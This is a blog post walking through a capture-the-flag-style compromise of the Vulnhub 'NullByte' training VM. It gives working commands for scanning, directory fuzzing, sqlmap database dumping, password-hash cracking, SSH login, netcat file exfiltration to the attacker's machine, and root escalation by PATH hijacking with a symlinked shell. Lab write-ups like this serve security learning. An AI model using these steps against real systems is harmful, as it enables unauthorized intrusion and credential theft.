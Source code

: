 ```yaml
---
layout: post
title:  "vulnhub nullbyte vm"
date:   2016-03-01 00:00:10 +0000
categories: vulnhub
---
```

<p>This is about nullbyte, a breakable vm from <a href="http://www.vulnhub.com">vulnhub</a>. Vulnhub is the ultime playground if you like coding/security :)
<br>
<p> I'm using debian with the packages i need to play with these VM's, yes i could use kali or any other vm but those are overwhelming for me.
<p> So let's get stated. Finding the machine:
{% highlight bash %}
sudo netdiscover -r 192.168.0.0/16
{% endhighlight %}
<p>The one with name CADMUS COMPUTER SYSTEMS is the nullbyte machine. Next, let's check what it's running:
{% highlight bash %}
nmap -p- -sV 192.168.1.84
{% endhighlight %}
<p>Running apache on port 80, running ssh on port 777. There are other two services that i ignored.
<p>So, i open browser and found a pretty much unuseful page e h... i tried to search for other directories/pages on the server so i used wfuzz.py and also made lame attempt to replace wfuzz.py. Just because. This lame attempt is visible in <a href="https://github.com/estafermo/trash">github</a> as hfuzz.rb.
{% highlight bash %}
python wfuzz.py -c -z file,wordlist/general/common.txt --hc 404 -o html  http://192.168.1.84/FUZZ
{% endhighlight %}
<p> A few directories but the most import was <b>phpmyadmin</b>. There must be something more than a simple html with an image. Neverless i couldn't find anything useful, so i took a glimpse at the <a href="http://anthonyferrillo.net/blog/nullbyte-solution/">walkthrough</a> and saw that people checked the image.
<p>By now i already knew that there was an url on the image, shamefully i know, but 'live and learn'. Went through an opened it in the browser and saw that the newly found page had a form and message saying the password wasn't hard. Again, i build an brute forcer to found the password. You can check the code <a href="https://github.com/estafermo/trash">github</a> as brute.rb. After a few minutes i found the password 'elite'. Btw, for real brute forcing use hydra.
<p>Anyway, a new form was found with a texbox on it. After playing around in the browser i found http://192.168.1.84/kzMb5nVYJw/420search.php which had a few data on it . That search smelled as sqli so i fired up sqlmap.py. Yes dump-all. No big databases on this playing vm's.
{% highlight bash %}
sqlmap -u http://192.168.1.84/kzMb5nVYJw/420search.php?usrtosearch=ramses --dump-all
{% endhighlight %}
<p> Got the password YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE from the output tables. So i searched it on google which pointed me to base64 and md5. Although it didn't have a "=" which usually means it's encode in base64  <a href="https://www.base64decode.org/">https://www.base64decode.org/</a> to decode then to <a href="https://hashkiller.co.uk/md5-decrypter.aspx">https://hashkiller.co.uk/md5-decrypter.aspx</a>. <br>Password: omega.
<p>Ok, now i had an user.
{% highlight bash %}
ssh ramses@192.168.1.84 -p 777
{% endhighlight %}
<p> First thing i always check is .bash_history.
{% highlight bash %}
cat .bash_history
{% endhighlight %}
<p> a file in backup and the website itself.
{% highlight bash %}
cd /var/www
{% endhighlight %}
<p>Went through the directory tree and reached the 420search.php.
{% highlight bash %}
cat 420search.php
{% endhighlight %}
<p> Eheheh, by now i could login in phpmyadmin with root:sunnyvale. I also tried this login in command line with no luck.
<p>In the .bash_history they pointed out the file 'procwatch', which owned/runned as root. I couldn't find anything more about it and it seemed to run a simple 'ps'. After a while, i copied it to my computer with netcat:
{% highlight bash %}
nc -lnvvp 4444 > procwatch
{% endhighlight %}
{% highlight bash %}
nc 192.168.1.73 4444 < procwatch
{% endhighlight %}
<p>I remembered a trick i read in other vm's walkthroughs, so i symlinked /bin/sh into ps and changed the  path to prioritize my symlinked:
{% highlight bash %}
ln -s /bin/sh ps
export PATH=.:$PATH
{% endhighlight %}
<p>
and then run the process and voilá, root. This was pure luck because i could only do that if the parameter passed which i assumed was 'ps' didn't have the full path.
<br><p> Saw other people resolution and i must learn how to gdb properly. Others created a newly ps and changed the path to prioritize. Anyway, my deadlock in this was one the damn image, Neverless it was pure fun. :)
